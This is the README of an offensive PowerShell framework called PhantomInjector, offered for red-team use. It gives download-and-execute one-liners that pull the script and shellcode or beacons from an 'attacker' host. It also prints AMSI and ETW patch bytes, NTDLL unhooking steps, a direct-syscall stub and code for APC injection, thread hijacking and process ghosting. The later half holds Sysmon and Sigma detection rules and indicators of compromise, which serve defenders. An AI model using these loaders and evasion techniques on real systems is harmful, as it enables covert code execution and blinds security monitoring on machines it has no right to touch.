







# PhantomInjector – Advanced In-Memory Process Injection Framework

  

A stealthy PowerShell-based process injection framework implementing multiple in-memory techniques with evasion capabilities, designed for red team engagements and penetration testing.

---

## Features

- **Multiple Injection Techniques**  
  - APC Injection (Early Bird + `QueueUserAPC`)  
  - Thread Hijacking with crash protection  
  - Process Ghosting  
  - Classic Remote Thread Injection  

- **Evasion Capabilities**  
  - AMSI bypass via function patching  
  - ETW bypass via `EtwEventWrite` hooking  
  - NTDLL unhooking from disk  
  - Direct syscall support (via in-memory assembly)  

- **Operational Security**  
  - Anti-debug checks  
  - Sandbox detection  
  - Dynamic payload loading  

---

## Architecture


---

## Usage

### 1. Basic Injection

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/PhantomInjector.ps1')
Invoke-PhantomInjector `
  -PayloadPath shellcode.bin `
  -ProcessName notepad `
  -InjectionMethod APC
```


### 2. Remote Payload with ETW/AMSI Bypass

```powershell
iex (irm http://attacker/PhantomInjector.ps1)
Invoke-PhantomInjector `
  -PayloadUrl http://attacker/shellcode.bin `
  -BypassAMSI `
  -BypassETW `
  -InjectionMethod ThreadHijack
```


### 3. Process Ghosting (No Disk)

```powershell
$loader = [System.Text.Encoding]::UTF8.GetString((
  Invoke-WebRequest 'http://attacker/PhantomInjector.ps1').Content)
iex $loader
Invoke-PhantomInjector `
  -PayloadUrl http://attacker/beacon.bin `
  -InjectionMethod GhostProcess
```


### 4. Syscall-Only Injection

```powershell
Invoke-PhantomInjector -PayloadUrl http://attacker/sc.bin `
    -UseSyscalls `
    -InjectionMethod RemoteThread `
    -BypassETW
```


---

## Technical Deep Dive

### Evasion Techniques

#### AMSI Bypass

Patches **AmsiScanBuffer** in memory to return `0x80070057` (`E_INVALIDARG`):


---

```csharp
byte[] patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }; // mov eax,0x80070057; ret
```

#### ETW Bypass

Overwrites **EtwEventWrite** with a single `RET` instruction:



```csharp
byte[] patch = { 0xC3 }; // ret
```
---

#### NTDLL Unhooking

1. Load a clean copy of `ntdll.dll` from disk.  
2. Compare exported function bytes against the in-memory copy.  
3. Overwrite hooked functions in memory:



```csharp
Marshal.Copy(cleanBytes, 0, hookedAddr, 0x20);
```

---

#### Syscall Implementation 


```csharp
byte[] CreateSyscallStub(uint syscallId) {
    return new byte[] {
        0x4C, 0x8B, 0xD1,             // mov r10, rcx
        0xB8,                          // mov eax [next 4 bytes]
        (byte)(syscallId & 0xFF),      // syscall ID low byte
        (byte)((syscallId >> 8) & 0xFF),
        (byte)((syscallId >> 16) & 0xFF),
        (byte)((syscallId >> 24) & 0xFF),
        0x0F, 0x05,                    // syscall
        0xC3                           // ret
    };
}
```

**Supported NTAPI Functions**

| Syscall          | Number | Usage Context        |
|------------------|--------|----------------------|
| `NtCreateThreadEx`  | 0xC0   | Thread Hijacking     |
| `NtAllocateVirtualMemory` | 0x18   | Process Ghosting     |
| `NtQueueApcThread` | 0x42   | APC Injection        |

**Enhanced Detection Table**

| Technique         | WinAPI Detection Risk | Syscall Detection Risk |
|-------------------|-----------------------|------------------------|
| APC Injection     | High                  | Medium                 |
| Thread Hijacking  | Medium                | Low                    |
| Process Ghosting  | High                  | Medium                 |


**Pro Tip**
Combine with -UnhookNTDLL for clean syscall execution environment

---

### Injection Methods

#### 1 APC Injection

1. Allocate RWX memory in the target process (`VirtualAllocEx`).  
2. Write shellcode (`WriteProcessMemory`).  
3. Queue APC to all threads (`QueueUserAPC`).  
4. Resume threads to trigger execution.



```csharp
QueueUserAPC(allocAddr, hThread, IntPtr.Zero);
ResumeThread(hThread);
```

---

#### 2 Thread Hijacking

1. Enumerate and suspend a target thread.  
2. Capture and save its context.  
3. Write shellcode to a new RWX region.  
4. Redirect the thread’s instruction pointer (`Rip/Eip`).  
5. Resume thread.



```csharp
context.Rip = (ulong)allocAddr;
SetThreadContext(hThread, ref context);
```

---

#### 3 Process Ghosting

1. Begin an NTFS transaction (TxF).  
2. Write a legitimate template EXE into the transaction.  
3. Spawn the process suspended via `NtCreateSection` / `NtCreateProcessEx`.  
4. Inject shellcode.  
5. Commit the transaction to delete the on-disk file, leaving only the in-memory process.



```csharp
NtCreateSection(out hSection, SEC_ALL_ACCESS, IntPtr.Zero, 0,
                PAGE_EXEC_READ, SEC_IMAGE, hFile);
NtCreateProcessEx(out hProcess, PROC_ALL_ACCESS, IntPtr.Zero,
                  GetCurrentProcess(), CREATE_SUSPENDED, hSection, …);
```

---

## Detection & Mitigation

### Indicators of Compromise (IoCs)

- PowerShell spawning uncommon processes with network connections (e.g., Notepad).  
- RWX memory allocations in high-privilege processes.  
- APC calls to non-module memory regions.  
- Unusual patches in `ntdll.dll` at runtime.

### Defensive Measures

```yaml
# Sysmon Configuration Snippet
- rule: PhantomInjector Detection
  desc: Detects common injection patterns from PowerShell
  conditions:
    - ParentImage: "powershell.exe"
    - (AllocationProtect: "0x40" OR Protect: "0x40")  # PAGE_EXECUTE_READWRITE
    - CreateRemoteThread: true
  action: alert
```

### Sysmon Detection Rules

#### 1. **Base Rule for PhantomInjector Activity**
```xml
<RuleGroup name="PhantomInjector" groupRelation="or">
    <ProcessCreate onmatch="include">
        <!-- PowerShell spawning uncommon targets -->
        <CommandLine condition="contains">-InjectionMethod</CommandLine>
        <ParentImage condition="end with">\powershell.exe</ParentImage>
        <Image condition="contains">\notepad.exe</Image>
    </ProcessCreate>
</RuleGroup>
```

#### 2. **Syscall-Specific Detection**
```xml
<RuleGroup name="DirectSyscall_Detection" groupRelation="and">
    <ProcessCreate onmatch="include">
        <CommandLine condition="contains">-UseSyscalls</CommandLine>
    </ProcessCreate>
    <FileCreate onmatch="include">
        <!-- Detects NTDLL unhooking -->
        <TargetFilename condition="contains">\ntdll.dll</TargetFilename>
    </FileCreate>
</RuleGroup>
```

#### 3. **Memory Protection Alerts**
```xml
<RuleGroup name="Memory_Protection_Changes">
    <MemoryProtection onmatch="include">
        <!-- RWX memory allocations -->
        <Protect condition="is">PAGE_EXECUTE_READWRITE</Protect>
        <CallTrace condition="contains">kernelbase.dll+</CallTrace>
    </MemoryProtection>
</RuleGroup>
```

#### 4. **Process Ghosting Indicators**
```xml
<RuleGroup name="Process_Ghosting">
    <FileCreate onmatch="include">
        <!-- Temp executable creation + deletion -->
        <TargetFilename condition="contains">Temp\</TargetFilename>
        <TargetFilename condition="end with">.exe</TargetFilename>
    </FileCreate>
    <ProcessCreate onmatch="include">
        <CommandLine condition="contains">-InjectionMethod GhostProcess</CommandLine>
    </ProcessCreate>
</RuleGroup>
```

#### 5. **Thread Injection Patterns**
```xml
<RuleGroup name="Thread_Injection">
    <CreateRemoteThread onmatch="include">
        <!-- PowerShell -> non-child process -->
        <StartModule condition="is">Unknown</StartModule>
        <SourceImage condition="end with">\powershell.exe</SourceImage>
    </CreateRemoteThread>
</RuleGroup>
```

---

### Detection Logic Table

| Technique         | Primary Indicator                              | Sysmon Event ID |
|-------------------|------------------------------------------------|-----------------|
| APC Injection     | `QueueUserAPC` from non-image memory           | 10              |
| Thread Hijacking  | `SetThreadContext` RIP modification            | 8               |
| Process Ghosting  | Section creation from deleted files            | 12              |
| Syscall Usage     | NTDLL unhooking + unusual call traces          | 7, 11           |

---

#### Recommended Baseline

```yaml
# Sigma Rule Equivalent
detection:
  selection:
    EventID:
      - 1   # Process Creation
      - 8   # Remote Thread
      - 10  # Process Access
    Image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
    CommandLine|contains|all:
      - '-InjectionMethod'
      - '-Payload'
  condition: selection
```

**Pro Tip:** Combine with these Windows Event Log checks:

- **4688**: Process creation with suspicious command-line  
- **4657**: Registry changes for COM hijacking  
- **4104**: Script block logging for PowerShell  

---

## Credits

- **Author**: 0xMaz Mohamed Alzhrani  
- Techniques inspired by APCry, Process Ghosting studies, and community malware research.

## TODO:
- More behavioral evasion
---

## License

```
MIT — Use responsibly and only on authorized systems.  
```
